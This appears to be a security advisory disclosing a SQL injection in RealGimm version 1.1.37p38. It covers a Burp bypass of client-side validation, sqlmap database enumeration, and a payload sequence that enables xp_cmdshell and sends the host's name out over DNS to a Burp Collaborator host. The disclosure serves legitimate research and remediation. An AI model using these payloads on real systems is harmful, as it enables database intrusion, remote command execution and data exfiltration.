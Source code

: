 # CVE-ID | RealGimm by GruppoSCAI - SQL Injection

A SQL Injection vunerability was found in RealGimm version 1.1.37p38. This vulnerability eventually lead to full database access and remote command execution via xp_cmdshell. What follows is a description of the steps taken to perform the exploit.

## Proof of Concept
First of all, the application performs an input sanitization operation at front-end level. Therefore, in Burp Proxy, disable the Javascript validation applied by application so that we can insert any malicious character inside the forms.

![Disabling JS in Burp](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/2b182fd0-23aa-4667-99f7-1e1b6d044fa4)


After that, we access the function in which the vulnerability is present by clicking on *Sistema ->  Scheduler -> Processi Schedulati* and we insert a single quote inside the "Data Richiesta Dal" field:

![Single quote insertion](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/6ac516a3-4c6c-4e8d-920a-19a340f74807)


After starting the search by pressing the magnifying glass icon, we can see that the application returns an error indicating the presence of an error in the syntax of the SQL query used, thus indicating the presence of a SQL Injection vulnerability:

![SQL Error](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/11641880-a9e7-4254-8d3b-4f7424250651)


Below the intercepted requests and responses:

![Request and response 1](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/6cc599df-00bd-44d8-8b81-bfab0683bd13)

![Request and response 2](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/d80d1be2-33ec-4c4f-8a93-b20ead48fd89)


Using sqlmap we therefore obtain the banner together with all the available databases:

![Banner extraction](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/0a1435f0-b751-4e0f-a9ed-1f39e7c60514)

![Databases extraction](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/3044ff0a-c646-4a54-bc62-0adb405a737b)


Finally, it is possible to achieve code execution on the host where the mssql server is running by enabling and taking advantage of xp_cmdshell. To do this, execute the following instructions one at a time:

```
') EXEC sp_configure 'show advanced options', 1;--

') RECONFIGURE;--

') EXEC sp_configure 'xp_cmdshell', 1;--

') RECONFIGURE;--

')EXEC xp_cmdshell 'for /F "tokens=1" %i in (''hostname'') do nslookup %i.[burp_collaborator_URL].oastify.com';--

```

![Remote code execution](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/13903cb5-c544-405f-a1a7-77735ff24ef1)


As seen above, it is possible run any command on the underlaying host and exfiltrate data via the DNS protocol.

## Remediation

GruppoSCAI fixed the vulnerability. The fix was subsequently analyzed and was confirmed to be effective.


## Vulnerable version of RealGimm

As a result of our testing, version 1.1.37p38 is considered to be affected by this vulnerability. 


## Discovered by

Paolo Caminati

Francesco Mercatili

Claudio Rimensi
